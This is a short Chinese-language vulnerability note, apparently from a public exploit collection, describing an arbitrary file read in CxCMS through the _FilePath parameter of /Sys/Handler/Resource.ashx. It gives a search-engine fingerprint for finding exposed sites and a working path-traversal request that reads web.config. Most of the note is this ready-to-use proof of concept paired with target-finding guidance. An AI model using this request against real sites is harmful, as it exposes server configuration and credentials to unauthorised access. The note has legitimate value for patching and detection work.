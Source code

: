 # 

# CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
CxCMS
```

## 网络测绘

```
"Powered by CxCms"
```

## 漏洞复现

关键字"Powered by CxCms"

![image-20220518144245685](./images/202205181442728.png)

验证POC

```
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![image-20220518144331101](./images/202205181443193.png)
